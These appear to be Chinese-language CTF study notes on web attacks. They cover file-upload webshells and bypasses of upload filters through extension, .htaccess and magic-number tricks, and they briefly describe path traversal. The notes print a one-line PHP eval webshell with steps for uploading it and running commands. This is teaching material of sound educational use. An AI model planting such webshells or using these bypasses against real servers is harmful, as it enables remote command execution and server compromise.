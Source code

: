 ### <span class="red">File-based：Webshell</span>

- ![image](https://hackmd.io/_uploads/rJ-TH1zmyg.png)

- **e.g.(範例攻擊步驟)** : 
    (1) **<span class="blue">echo <span class="purple">'<?php eval($_GET["cmd"]); ?>'</span> > <span class="red">cmd.php</span></span>**
    (2) **將 cmd.php 檔放入(沒限制的)上傳點並取得結果(產出)**
    (3) **將獲得的結果加上 "<span class="blue">cmd = 想要執行的 shell script</span>" (e.g. ```ls -al```)**
    (4) **就能夠從結果中獲得額外資訊**
    * ![image](https://hackmd.io/_uploads/H1Kx9j_71e.png)

- **<span class="red">2024 新生盃 Babyshell</span>：https://hackmd.io/@AndyShen/B1E-roPHyg**

- **<span class="red">ISS 期末 CTFd exchange：https://hackmd.io/@AndyShen/ryePCTJPJx**

&emsp;
    
- **<span class="red">Prevent & Bypass</span>**
    * **檢查<span class="red">++Post Content Type++</span>**
        - **像是剛剛模擬攻擊的<span class="purple">Content Type</span>可以在<span class="light_purple">DevTools(F12)</span>中Network欄位底下的Payload中查看**
        - ![image](https://hackmd.io/_uploads/S1u0piOQJg.png)

    * **檢查<span class="red">++File Signature++</span> (<span class="red">++Magic Number++</span>)**
        - **https://filesignatures.net**
        - **不同類型的檔案會有各自的file signature**
        - **<span class="purple">Magic Number</span> + <span class="blue">PHP code</span> → <span class="red">Webshell</span>**

    * **檢查<span class="red">++副檔名++</span>**
        - **<span class="purple">黑名單</span>**
            * **大小寫會失效**
            * **<span class="light_purple">pht</span>, <span class="light_purple">phtml</span>, <span class="light_purple">php\[3, 4, 5, 7\] ...</span>**
            * **<span class="light_purple">XSS (html, svg)</span>**
            * **<span class="light_purple">.htaccess</span>**
                - **e.g. 如果檔案名稱有meow就當php執行**
                - ![image](https://hackmd.io/_uploads/B1giyfhu71l.png)
    
        - **<span class="purple">白名單</span>**

&emsp;

### <span class="red">Path Traversal</span>

- **利用../的方式跳過(特定)目錄**

- ![image](https://hackmd.io/_uploads/BybYc3O7Je.png)

&emsp;

- **<span class="red">常見的System Information Path</span>**
    * ![image](https://hackmd.io/_uploads/rkPVLnuXJx.png)
    
&emsp;
    